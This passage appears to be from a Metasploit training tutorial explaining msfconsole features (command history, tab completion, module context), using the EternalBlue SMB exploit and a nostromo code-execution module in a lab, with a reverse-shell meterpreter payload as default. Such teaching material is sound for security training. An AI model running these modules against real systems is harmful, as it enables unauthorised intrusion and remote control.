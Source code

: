 You can use the history command to see commands you have typed earlier.

```
msf6 > history
1  use exploit/multi/http/nostromo_code_exec
2  set lhost 10.10.16.17
3  set rport 80
4  options
5  set rhosts 10.10.29.187
6  run
7  exit
8  exit -y
9  version
10  use exploit/multi/script/web_delivery
```

An important feature of msfconsole is the support of tab completion. This will come in handy later when using Metasploit commands or dealing with modules. For example, if you start typing `he` and press the tab key, you will see it auto-completes to `help`.

Msfconsole is managed by context; this means that unless set as a global variable, all parameter settings will be lost if you change the module you have decided to use. In the example below, we have used the ms17_010_eternalblue exploit, and we have set parameters such as `RHOSTS`. If we were to switch to another module (e.g. a port scanner), we would need to set the RHOSTS value again as all changes we have made remained in the context of the ms17_010_eternalblue exploit. 

Let us look at the example below to have a better understanding of this feature. We will use the MS17-010 “Eternalblue” exploit for illustration purposes.

Once you type the `use exploit/windows/smb/ms17_010_eternalblue` command, you will see the command line prompt change from msf6 to “msf6 exploit(windows/smb/ms17_010_eternalblue)”. The "EternalBlue" is an exploit allegedly developed by the U.S. National Security Agency (N.S.A.) for a vulnerability affecting the SMBv1 server on numerous Windows systems. The SMB (Server Message Block) is widely used in Windows networks for file sharing and even for sending files to printers. EternalBlue was leaked by the cybercriminal group "Shadow Brokers" in April 2017. In May 2017, this vulnerability was exploited worldwide in the WannaCry ransomware attack.

```
msf6 > use exploit/windows/smb/ms17_010_eternalblue 
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

The module to be used can also be selected with the `use` command followed by the number at the beginning of the search result line.  

While the prompt has changed, you will notice we can still run the commands previously mentioned. This means we did not "enter" a folder as you would typically expect in an operating system command line.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > ls
[*] exec: ls

burpsuite_community_linux_v2021_8_1.sh	Instructions  Scripts
Desktop					Pictures      thinclient_drives
Downloads				Postman       Tools
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```
